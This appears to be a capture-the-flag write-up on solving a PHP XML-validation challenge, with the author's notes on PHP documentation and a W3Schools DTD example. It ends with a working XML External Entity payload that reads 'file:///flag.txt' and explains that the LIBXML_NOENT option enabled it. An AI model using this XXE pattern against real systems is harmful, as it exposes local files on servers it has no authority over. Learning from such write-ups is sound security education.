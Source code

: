 
This was a fun one to learn!

First of all, it was _incredibly_ hard to just get any input at all to validate. <br>
I kept searching for examples of valid XML, or HTML, plugging them in; and it wouldn't work.

I thought even the [php docs](https://www.php.net/manual/en/domdocument.validate.php) were bad, they had some kind of incomplete xml example
that they used on the documentation for `validate`:

```php
<?php
$dom = new DOMDocument;
$dom->load('book.xml');
if ($dom->validate()) {
    echo "This document is valid!\n";
}
?>
```
_What the hell was `book.xml`?_

Turns out, I needed to dig [a bit deeper](https://www.php.net/manual/en/dom.examples.php) into the docs...

But soon, I did find an example that was more [manageable](https://www.w3schools.com/xml/xml_dtd_intro.asp):

```xml
<?xml version="1.0"?>
<!DOCTYPE note [
<!ELEMENT note (to,from,heading,body)>
<!ELEMENT to (#PCDATA)>
<!ELEMENT from (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT body (#PCDATA)>
]>
<note>
<to>Tove</to>
<from>Jani</from>
<heading>Reminder</heading>
<body>Don't forget me this weekend</body>
</note>
```

Finally, OWASP has some good documentation on [XML Entity injection](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing).
This is what drove me to the finish line, with an xml document that looked like so:
```xml
<?xml version="1.0"?>
<!DOCTYPE root[
        <!ELEMENT root (#PCDATA)>
        <!ENTITY foo SYSTEM "file:///flag.txt">
]>
<root>&foo;</root>
```

We end up lucking out a little, because of the options that were passed to `loadXML`. 
On the other side of the coin, we should have looked at the documentation related to each
of the options; we would have easily found `LIBXML_NOENT` is related to XXE.

